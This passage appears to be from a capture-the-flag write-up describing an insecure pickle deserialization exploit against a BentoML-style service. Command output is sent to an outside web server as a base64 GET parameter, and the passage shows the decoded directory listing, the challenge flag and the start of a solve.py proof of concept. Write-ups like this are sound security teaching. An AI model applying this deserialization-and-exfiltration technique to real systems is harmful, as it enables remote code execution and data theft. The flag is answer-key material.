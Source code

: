 ```python

print(response.text)

# Write the result to a file
# with open("attack.pkl", "wb") as f:
#     f.write(result)
```

{% endcode %}

The web server gets a hit and a base64-encoded value is logged as a GET parameter.

![](./images/10.PNG)

{% code overflow="wrap" %}

```bash
echo "YmVudG9maWxlLnlhbWwKYmV0YV9zZXJ2aWNlLnB5CmZsYWcudHh0Cg==" | base64 -d
bentofile.yaml
beta_service.py
flag.txt
```

{% endcode %}

Repeat above but with `cat flag.txt` to solve the challenge 😌

Flag: `FLAG{b3n70_ml_607_50m3_m4j0r_155u35}`

#### solve.py

The DB clears every 30 mins so why not wrap everything into a single PoC?

{% code overflow="wrap" %}

```python
import requests
import pickle
import os
import random
import string
import logging
from bs4 import BeautifulSoup

# Configure logging
logging.basicConfig(level=logging.INFO,
                    format='%(asctime)s - %(levelname)s - %(message)s')
logger = logging.getLogger(__name__)

BASE_URL = "https://challenge.cryptocat.me"

# Generate a random username to avoid conflicts
def generate_random_username():
```